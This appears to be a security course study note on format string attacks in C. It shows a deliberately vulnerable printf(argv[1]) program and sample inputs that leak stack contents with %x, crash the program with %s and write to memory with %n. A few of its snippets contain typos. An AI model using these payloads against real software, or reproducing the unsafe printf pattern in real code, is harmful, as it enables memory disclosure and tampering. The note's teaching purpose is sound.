 # EHD Topic 15 - Format String Attack

###### tags: #EHD #Theory

## Table of Contents
```toc
```

## Format String
- Examples:
	- `Alert()`
	- `MsgBox()`
	- `System.out.printIn()`
	- `printf()`
- Takes whatever strings specified and displays them in the output console

**Example Problem**
- `formatit.c`
```c
// the program prints out the first argument
int main(int argc, char *argv[])
{
	printf("%s", argv[1]);
	return 0;
}

// when the format string is missing:
int main(int argc, char *argv[])
{
	printf(argv[1]);
	return 0;
}
// the program can still print out the first argument but will be vulnerable to a format string attack
```
- If the code `formatit` is run with `%s` or `%x` in the argument, the program will print the value on top of the stack

![300](https://i.imgur.com/LJL8mQj.png)

### Using Perl or Python to Print Characters
- In format string attacks, we may need to repeat a sequence of characters repeatedly
```
./formatit %x.%x.%x.%x.%x.%x.%x.%x
```
- Using Perl or Python can help make this process easier
```
./formatit $(perl -e 'print("%x." x 8)')
./formatit $(python -c 'print("%x." * 8)')
```
- Perl and Python can also print any character using its ASCII code by using `\xNN` where `NN` is the ASCII code of the character in hexadecimal
```
./formatit $(perl -e 'print("%x." x 4, "\x61\x62")')
./formatit $(python -c 'print("%x." ** 4 + chr(0x61)')
```

## Reading the Stack
- If the stack looks like this:
```
18 44 f9 77 c2 44 f9 77 
```
- Then `formatit hello,%x,%x` would return the following:
```
# returns the first two words in the stack (little endian order is used)
hello,77f94418,77f944c2
```
- Potentially, it can read the entire stack
- Can find sensitive information such as passwords, keys which can also be found in the stack

## Crashing the Application
- If running `formatit hello,%x,%x,%x`, it returns the following:
```
77f94418,77f944c2,0012fe10
```
- Application can be crashed by reading the memory content pointed to by the address in the stack
```
formatit %s%s%s
```
- This will attempt to read the memory pointed by `77f94418, 77f944c,0012fe10`
- Application will crash as access to memory address to `0012fe10` is prohibited

## Writing to Stack
- `%n` writes the number of characters formatted by the `printf` function to the specified memory address
```
formatit %x_%x_%n
```
- prints the following output: `80000_6f38c_` (only 12 characters or `0c` in hexadecimal)
- The value of `0c` will be written to the address `0x7ffdf000`
